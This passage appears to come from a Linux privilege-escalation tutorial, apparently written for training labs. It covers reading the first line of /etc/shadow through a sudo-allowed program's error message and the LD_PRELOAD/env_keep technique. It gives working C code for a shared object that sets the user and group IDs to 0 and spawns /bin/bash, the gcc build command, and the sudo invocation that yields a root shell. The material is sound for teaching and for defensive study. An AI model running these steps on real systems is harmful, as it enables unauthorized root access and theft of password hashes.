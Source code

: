 ![img](https://i.imgur.com/rNpbbL8.png)

Loading the `/etc/shadow` file using this option will result in an error message that includes the first line of the `/etc/shadow` file. 

**Leverage LD_PRELOAD**

On some systems, you may see the LD_PRELOAD environment option. 

![img](https://i.imgur.com/gGstS69.png)

LD_PRELOAD is a function that allows any program to use shared libraries. This [blog post](https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld_preload-to-cheat-inject-features-and-investigate-programs/) will give you an idea about the capabilities of LD_PRELOAD. If the  "env_keep" option is enabled we can generate a shared library which will be loaded and executed before the program is run. Please note the  LD_PRELOAD option will be ignored if the real user ID is different from  the effective user ID. 

The steps of this privilege escalation vector can be summarized as follows;

1. Check for LD_PRELOAD (with the env_keep option)
2. Write a simple C code compiled as a share object (.so extension) file
3. Run the program with sudo rights and the LD_PRELOAD option pointing to our .so file

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```

We can save this code as shell.c and compile it using gcc into a shared object file using the following parameters;

```
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

![img](https://i.imgur.com/HxbszMW.png)

We can now use this shared object file when launching any program our user can run with sudo. In our case, Apache2, find, or almost any of the  programs we can run with sudo can be used. 

We need to run the program by specifying the LD_PRELOAD option, as follows;

```
sudo LD_PRELOAD=/home/user/ldpreload/shell.so find
```

This will result in a shell spawn with root privileges. 

![img](https://i.imgur.com/1YwARyZ.png)
